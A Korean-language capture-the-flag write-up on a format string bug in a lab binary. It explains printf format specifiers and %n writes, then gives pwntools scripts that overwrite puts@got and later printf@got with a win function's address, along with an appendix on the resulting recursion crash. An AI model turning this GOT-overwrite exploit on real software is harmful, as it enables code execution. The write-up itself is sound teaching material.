









> FSB 이용 → printf@got 주소에 win 함수 덮기
> 

---

## 0. printf()

```c
printf("%s %d", name, age);
```

- 첫 번째 인자 `"%s %d"` = **포맷 스트링**
- printf는 포맷 스트링을 왼쪽부터 읽다가 **`%`를 만나면** → "인자 하나를 꺼내 사용하는 거라 해석" 하고 **다음 인자를 가져와** 출력한다.
    - `%s` → 다음 인자를 "문자열 주소"로 보고 그 문자열 출력
    - `%d` → 다음 인자를 "정수"로 출력
    - `%p` → 다음 인자를 "주소(16진수)"로 출력
    - `%c`  → 다음 인자를 “문자 1개”로 출력
    - `%x`  → 다음 인자를 “16진수(정수)”로 출력
    - `%n`  → 지금까지 출력한 바이트 수를 인자가 가리키는 주소에 int(4bytes)로 쓰기 (%hn: 2bytes, %hhn: 1byte)

### printf는 "인자가 몇 개인지" 모른다

printf는 **포맷 문자열에 `%`가 몇 개 있는지로** 인자를 꺼내 작동한다. 즉 **실제로 몇 개를 넘겨받았는지 별도의 확인 절차가 존재하지 않는다.**

인자는 정해진 자리(64비트: rsi, rdx, rcx, r8, r9 레지스터 → 그 다음 스택)에서 **순서대로** 꺼낸다

```
printf(포맷, 인자1, 인자2, ...)
        rdi    rsi    rdx   ... → 그 다음은 스택에서
```



> 
> 
> 
> printf(”%p %p”); 를 작동시키면 ,별도의 인자가 주어지지 않았어도 이 자리(레지스터/스택)에 있는 값 2개를 그냥 꺼내서 출력해버린다.
> 

### 0-1. fsb 바이너리 case1

**보통의 경우**

```c
printf("%s", buf);
//		포맷  인자
```

- 포맷 문자열은 `"%s"` (고정)이므로  buf는 **데이터(인자)로만** 쓰인다.
- buf에 주소가 들어있어도 printf는 그걸 **글자로 출력한다.**  → 즉, 안전하다.

**이 문제 상황(Case 1)**

```c
printf(buf);     
// buf 자체가 포맷 문자열
```

**buf가 포맷 문자열 자리**에 들어가 있다. 이 때, buf는 read함수로 입력된 값이다. 여기에 `%p`를 넣으면 printf가 그걸 **"지시"**로 해석해서 해당 위치에 있는 스택 값을 꺼내 출력한다. 만약 %n을 넣으면 메모리에 값을 쓸 수 있는 것이다.

---

## 1. 대상 분석

### 1-1. 코드 분석

case 1에서

```c
memset(buf,0,0x100);
read(0, buf, 0x9f);
 printf(buf); // 사용자 입력을 포맷 문자열로 그대로 printf
if(strstr(buf, "Painkiller") || strstr(buf, "Morphine") || strstr(buf, "ibuprofen")){
        exitst_or_not = (int *)empty;
}
```

### 1-2. 보호기법 분석



```python
Partial RELRO → GOT Overwrite 가능
Canary → Canary leak or Canary 우회
NX → gadget 으로 우회
No PIE → exploit 하드 코딩 가능.
```

---

## 2. Exploit 아이디어

### 2-1. buf에 `%p`를 넣어 메모리 leak

case 1에 `AAAA.%p.%p.%p.%p` 를 입력하면 `printf("AAAA.%p.%p.%p.%p")`가 되고 아래처럼 memory leak이 일어나는 걸 확인할 수 있다. 이걸 이용해, 스택에서 원하는 주소, 카나리, libc값 등을 바로바로 leak 할 수 있다.



### 2-2. buf에 `%n`을 넣어 메모리 쓰기

`%n`: **"지금까지 출력한 바이트 수"를, 해당 인자가 가리키는 주소에 써넣는다.**

```c
#include <stdio.h>

int main() {
        int count;
        printf("hello%n\n", &count);
        printf("%d\n", count);
}
```



> 
> 
> 
> **%c 특징**
> 
> `printf(”%10c”, ‘A’);` 같은 경우 %c앞에 10이 위치하므로 9칸만큼의 공백을 출력한 다음 1바이트 크기의 문자열인 A를 출력한다. (9 + 1 = 10)
> 
> 
> 

%n과 %c를 같이 사용하면 아래와 같은 것들이 가능해진다.

- `%자리수$n` 으로 그 주소에 **출력한 바이트 수를 써넣을 수 있다.**
- 출력 바이트 수는 `%100c` 같은 걸로 **내가 조절해, 원하는 값을 쓸 수 있다**.

> 
> 
> 
> #### `%n` vs `%6$n` 차이
> 
> | 문법 | 의미 |
> | --- | --- |
> | `%n` | **다음 순서**의 인자를 꺼내 사용한다 (앞에서 `%`들을 몇 개 썼는지에 따라 위치가 밀린다) |
> | `%6$n` | **무조건 6번째** 인자를 집어서 사용한다 (순서 상관없이) |

### FSB (Format String Bug)

| 포맷 | 능력 |
| --- | --- |
| `%p` `%x` `%s` | 메모리 **읽기** (leak) |
| **`%n`** | 메모리 **쓰기** (임의 주소에 값) |

```c
void open_emergency_medicine(){  // -> 이걸 실행시키는게 목표.
        char buf[30];
        int fd = open("flag" , O_RDONLY);
        read(fd,buf,20);
        printf("%s\n",buf);
        close(fd);
}
```

win함수(`open_emergency_medicne`)가 존재한다. %n으로 `puts@got`을 win 함수 주소로 덮어쓰기 해서, 다음 puts 호출이 flag 함수를 실행시키도록 만들면 이 문제를 풀 수 있다.

---

## 3. 필요한 정보 확인

### 3-1. FSB Offset



```c
AAAAAAAA.  <- 그냥 출력된 문자
0x7ffe3af7d670   <- %p #1 (rsi)
0x9f             <- %p #2 (rdx)
0x7fa82c4a88b2   <- %p #3 (rcx)
0x1999...        <- %p #4 (r8)
(nil)            <- %p #5 (r9)
0x101d40000      <- %p #6 (스택)
0x4012ea         <- %p #7
0x4141414141414141  ← %p #8  0x41이므로 "AAAAAAAA"가 여기에 위치한다.
0x252e70...      <- %p #9 (.%p 부분)
```

8번째 %p에서 0x4141… 이 나왔으므로 입력을 하면 입력 buf가 printf의 8번째 인자 자리에 온다는 걸 알 수 있다. 이를 통해, fsb offset이 8임을 알 수 있다.

이제, `%8$n`을 쓰면 printf는 **“8번째 인자(buf)를 주소로 보고 거기에 써라”** 가 된다. 즉, buf 맨 앞에 **덮을 주소(`puts@got`)**를 넣어두면

```
buf = [ puts@got 8바이트 ][ %(값)c ][ %8$n ]
         8번째 인자 자리에 옴     "8번째가 가리키는 주소에 써라"
```

### 3-2. Win 함수 주소



**win: 0x401256**

### 3-3. puts@got 주소



**puts@got: 0x404018**

---

### 4. Exploit

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

OFFSET   = 8
PUTS_GOT = 0x404018
TARGET   = 0x401256   # open_emergency_medicine

p = process('./fsb')

# case 1(search medicine) 선택 -> printf(buf)로 FSB
p.sendlineafter(b'> ', b'1')

# puts@got 에 open_emergency_medicine 주소 써넣기
# pwntools의 fmtstr_payload 이용
payload = fmtstr_payload(OFFSET, {PUTS_GOT: TARGET})
p.sendline(payload)

# 이후 puts가 호출되는 시점에 open_emergency_medicine 실행 -> flag 출력
p.interactive()
```

SIGSEGV가 뜨며 하지만 flag가 안읽어진다…

### 4-1. Exploit 수정

처음엔 위처럼 **`puts@got`를 win 함수로 덮는** 방향으로 짰다. payload 쓰기도 성공했는데 **flag가 한 글자도 안 나오고 SIGSEGV**가 떴다(아래 부록 참고). 결론만 말하자면 **덮을 대상을 `printf@got`로 바꿔야** 했다.

```python
from pwn import *
context.arch = 'amd64'

printf_got = 0x404028 # 덮을 자리 (printf GOT)
target     = 0x401256 # open_emergency_medicine

p = process('./fsb')
p.sendlineafter(b'> ', b'1')                      # case 1 선택 -> printf(buf)로 FSB
payload = fmtstr_payload(8, {printf_got: target}) # printf@got <- win 함수
p.sendline(payload)

p.interactive()   # menu()의 printf("> ") 호출 시점에 win 함수 실행 -> flag 출력
```

---

## 5. 클리어



---

## 6. 부록

### `puts@got` 덮었더니 무한 재귀 → SIGSEGV

디버그 로그를 보니 payload 쓰기(puts@got = 0x401256)는 **성공**했는데도 flag가 안 나오고 터졌다. 

 원인은 **win 함수의 디스어셈블리**에 있었다.

```
open_emergency_medicine:
  ...
  call   read@plt        ; flag 읽기
  lea    -0x30(%rbp),%rax ; buf
  mov    %rax,%rdi
  call   puts@plt         ; flag를 puts로 출력...
```

win 함수가 flag를 **`printf("%s")`가 아니라 `puts(buf)`로 출력**하고 있었다. 그런데 나는 **그 `puts`를 win 함수로 덮어버렸다.** 그래서:

```
menu의 puts → win 함수 실행
                -> flag 읽음
                -> puts(flag)       <- puts = win 함수
                    -> win 함수 또 실행
                        -> puts(flag) → win 함수 → ...  (무한 재귀)
```

**무한 재귀 → 스택 폭발 → SIGSEGV.** flag가 한 글자도 안 나온 이유도 이거였다. `puts(flag)`가 출력을 안 하고 자기 자신(win 함수)으로 되돌아가버리니까.

### `printf@got`로 교체 후 해결

win 함수가 쓰는 건 **open, read, puts, close**  즉, **printf는 안 쓴다.** 반대로 **menu()는 맨 끝에 `printf("> ")`를 호출**한다(`0x40138f`). 그래서 **`printf@got`를 덮으면**:

```
menu() 실행
  -> puts×3 (메뉴 텍스트 정상 출력, puts는 안 덮었으므로)
  -> printf("> ") 호출 -> printf@got = win 함수
      -> flag 읽음
     -> puts(flag) → 진짜 puts (안 덮음) -> flag 출력 ✅
```

---
